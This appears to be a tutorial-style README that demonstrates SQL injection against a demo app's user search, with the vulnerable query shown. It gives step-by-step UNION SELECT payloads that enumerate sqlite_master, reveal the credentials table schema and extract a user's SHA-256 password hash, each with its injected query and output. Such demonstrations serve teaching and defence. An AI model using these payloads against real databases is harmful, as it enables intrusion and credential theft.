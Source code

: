 # Step 0

Add some user to the database. Here we call them "Karl".

## Query for searching for users
This is something that we only know if we have access to the source code. It is included here for clarity. We assume that a hacker deduced that the query looks something like this.
``` sql
SELECT user FROM credentials WHERE user LIKE '%{}%'
```
The `{}` is replaced with the user input.

The name of the table and the column are something that we will first need to find out.

# Step 1

We check if quotation marks are escaped when adding user input to the query.

## Input
``` sql
'
```

## Query after Injection
``` sql
SELECT user FROM credentials WHERE user LIKE '%'%'
```

## Result

Error: unrecognized token: "'"

## Interpretation

This input field is susceptible to SQL injection!

# Step 2

Now that we can inject arbitrary SQL code into the query, we use `UNION` to add more results to the users query. Here we want to find out some metadata. The `sqlite_master` table is a protected tablename in sqlcipher.

## Input
``` sql
' UNION SELECT name FROM sqlite_master '
```

## Query after Injection
``` sql
SELECT user FROM credentials WHERE user LIKE '%' UNION SELECT name FROM sqlite_master '%'
```

## Result

The following users match your query: ["Karl", "credentials", "sqlite_autoindex_credentials_1"]

## Interpretation

The first result is the intended username. The second and third results are the names of tables stored in this database.

The free floating `'%'` at the end of the query is simply ignored.

# Step 3

Now that we know the name of the table, we want to know the names of its columns. Everything after and including the `WHERE` is necessary such that the type of the result matches that of the user column, which by trial and error we find to be `TEXT NOT NULL`.

## Input
``` sql
' UNION SELECT sql FROM sqlite_master WHERE sql IS NOT NULL AND sql LIKE '
```

## Query after Injection
``` sql
SELECT user FROM credentials WHERE user LIKE '%' UNION SELECT sql FROM sqlite_master WHERE sql IS NOT NULL AND sql LIKE '%'
```

## Result

The following users match your query: ["CREATE TABLE credentials (\n        user TEXT NOT NULL PRIMARY KEY,\n        password_hash TEXT NOT NULL\n    )", "Karl"]

## Interpretation

The first search result is the command the table "credentials" was created with. It contains the information that it has column names "user" and "password_hash".

# Step 3

We know the names and types of the table and columns, it is time to extract the information we are looking for.

## Input
``` sql
' UNION SELECT password_hash FROM credentials '
```

## Query after Injection
``` sql
SELECT user FROM credentials WHERE user LIKE '%' UNION SELECT password_hash FROM credentials '%'
```

## Result

The following users match your query: ["03ac674216f3e15c761ee1a5e255f067953623c8b388b4459e13f978d7c846f4", "Karl"]

## Interpretation

This is the hashed password of Karl. From the length we can deduce that it is most probably a SHA-256 Hash.